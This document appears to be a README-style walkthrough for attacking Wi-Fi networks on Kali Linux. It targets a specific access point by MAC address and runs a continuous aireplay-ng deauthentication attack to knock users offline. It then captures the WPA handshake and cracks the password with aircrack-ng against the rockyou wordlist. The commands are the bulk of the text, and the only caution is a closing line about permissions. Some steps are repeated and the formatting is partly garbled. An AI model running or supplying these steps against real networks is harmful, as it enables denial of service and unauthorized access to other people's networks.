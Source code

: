 # Network Monitoring

## Overview
This document provides a step-by-step guide for using various network monitoring and penetration testing commands on Kali Linux. Follow these instructions to check your Kali Linux version, verify network interfaces, manage processes, enable monitor mode, and perform deauthentication attacks using tools like `airmon-ng`, `airodump-ng`, `aireplay-ng`, `wireshark`, and `aircrack-ng`.

## Instructions

### Check Kali Linux Version
To determine which version of Kali Linux you are using, execute the following commands:
```sh
cat /etc/os-release
uname -a
```

### Check Internet Connection and Network Interfaces

Use the following commands to check the status of your network interfaces:

```
iwconfig
ifconfig
ip addr
```


### Kill Conflicting Processes

Before starting monitor mode, kill any processes that might interfere:

```sh

sudo airmon-ng check kill
```
### Start Monitor Mode

Enable monitor mode on your wireless interface (e.g., wlan0):

```sh

sudo airmon-ng start wlan0
```
### Verify Monitor Mode

Confirm that monitor mode is enabled using:

```sh

sudo airmon-ng
# or
iwconfig
```

### Capture AP's MAC Address and Channel

Use airodump-ng to identify the Access Point (AP) you want to target:

sh

sudo airodump-ng wlan0mon

Note down the AP's MAC address and channel. For example:

    AP-MAC: 90:9A:4A:B8:F3:FB
    Channel: 2

### Start Packet Capture

Open a new terminal window and start capturing packets:

sh

sudo airodump-ng -w hack1 -c 2 --bssid 90:9A:4A:B8:F3:FB wlan0mon

### Perform Deauthentication Attack

In another terminal window, execute the deauthentication attack:

sh

sudo aireplay-ng --deauth 0 -a 90:9A:4A:B8:F3:FB wlan0mon

### Analyze Captured Packets

Open the captured packets file in Wireshark:

```sh

wireshark hack1-01.cap
```
Filter by eapol to find the handshake packets.
### Stop Monitor Mode

After completing the capture, stop monitor mode:

```sh

sudo airmon-ng stop wlan0mon
```
### Crack the Password

Use aircrack-ng to crack the password from the captured handshake:

```sh

aircrack-ng hack1-01.cap -w /usr/share/wordlists/rockyou.txt
```
### Display Specific AP

To focus on a specific AP, use the following command:

```sh

sudo airodump-ng wlan0mon -d 90:9A:4A:B8:F3:FB
```
### Deauthenticate User

To deauthenticate a user and stop their service, use:

```sh

sudo aireplay-ng --deauth 0 -a 90:9A:4A:B8:F3:FB wlan0mon
```
### Change Network Mode

Switch from 'Monitor' mode back to 'Managed Access Point' mode:

```sh

sudo airmon-ng stop wlan0mon
```

### Final Password Crack Attempt

Perform the final password crack attempt:

```sh

aircrack-ng hack1-01.cap -w /usr/share/wordlists/rockyou.txt
```
By following these steps, you can efficiently use Kali Linux for network monitoring and penetration testing. Ensure you have the necessary permissions to perform these actions and always use them responsibly.



```sql
This combines all the instructions into a single `README.md` file without dividing any sections.
```

